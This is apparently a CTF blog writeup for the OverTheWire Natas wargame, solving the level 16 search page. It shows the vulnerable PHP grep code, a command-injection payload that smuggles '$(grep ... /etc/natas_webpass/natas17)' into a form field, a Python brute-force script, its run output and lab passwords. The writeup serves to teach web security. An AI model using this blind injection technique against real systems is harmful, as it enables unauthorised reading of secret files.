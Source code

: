 +++
author = "Alex Domnit"
title = 'Natas-Level 17'
date = 2024-08-25T21:17:22+03:00
draft = true
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas17*\
*Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC*\
*URL:      http://natas17.natas.labs.overthewire.org*

### Doc
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.\
[What is php?](https://en.wikipedia.org/wiki/PHP)\
PHP is a general-purpose scripting language geared towards web development. It was originally created by Danish-Canadian programmer Rasmus Lerdorf in 1993 and released in 1995. The PHP reference implementation is now produced by the PHP Group.

### Solution
We should examine the index page of **natas16** as per usual. There is a word search field just like in a previous letter and a search button.

<img src="/img/natas/natas16-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<strong>Source code:</strong>

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
This code snippet submits the sent data from the <strong>natas16 index page</strong> and searches the dictionary.txt file in order to find matching words that contain the given pattern. There is also some illegal character filter in place in order to make PHP injection more difficult to perform. The sollution to this level will be extremly similar to that of <strong>natas15</strong> since we are gonna try data and use the response packets we get in order to filter out usefull data.
#### Grep documentation needed:
```
grep (1)             - print lines that match patterns
    -E, --extended-regexp     PATTERNS are extended regular expressions
```
We are gonna do an extended regex in order to fill out characters in the password for <strong>natas17</strong> in conjunction with a word that we know is present in the <strong>dictionary.txt</strong> file, then if the response contains the word, we know that the selected character is in the password, otherwise not.
#### Grep format:
```
$(grep -E ^ string/character.* /etc/natas_webpass/natas17)Existing_key
```
We need to find a string that appears in <strong>dictionary.txt</strong>:

<img src="/img/natas/natas16-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
Now all that is left to do is implement this in a python script just like we did previously.

#### The script:
```
import requests

target = 'http://natas16.natas.labs.overthewire.org'
possible = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'


final = ''
i = 0
while len(final) != 32:
	while i < len(possible):
		character = possible[i]
		needle = ('$(grep -E ^%s%c.* /etc/natas_webpass/natas17)abandoned' % (final, character))
		req = requests.get(target,
			auth=('natas16','hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'),
			params={"needle": needle}
		)
		if "abandoned" not in req.text:
			final += character
			print ('Password so far : ' + final)
			i = 0
		else:
			i += 1
print ("----Script Finished----")
print ("Password is : " + final)
```
Now all that is left to do is run the script and obtain the password for <strong>natas17</strong>.
#### Script run:
```
02:59:31 archie@Archie python → python3 scriptnatas16.py
Password so far : E
Password so far : Eq
Password so far : Eqj
Password so far : EqjH
Password so far : EqjHJ
Password so far : EqjHJb
Password so far : EqjHJbo
Password so far : EqjHJbo7
Password so far : EqjHJbo7L
Password so far : EqjHJbo7LF
Password so far : EqjHJbo7LFN
Password so far : EqjHJbo7LFNb
Password so far : EqjHJbo7LFNb8
Password so far : EqjHJbo7LFNb8v
Password so far : EqjHJbo7LFNb8vw
Password so far : EqjHJbo7LFNb8vwh
Password so far : EqjHJbo7LFNb8vwhH
Password so far : EqjHJbo7LFNb8vwhHb
Password so far : EqjHJbo7LFNb8vwhHb9
Password so far : EqjHJbo7LFNb8vwhHb9s
Password so far : EqjHJbo7LFNb8vwhHb9s7
Password so far : EqjHJbo7LFNb8vwhHb9s75
Password so far : EqjHJbo7LFNb8vwhHb9s75h
Password so far : EqjHJbo7LFNb8vwhHb9s75ho
Password so far : EqjHJbo7LFNb8vwhHb9s75hok
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5T
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0O
Password so far : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
----Script Finished----
Password is : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```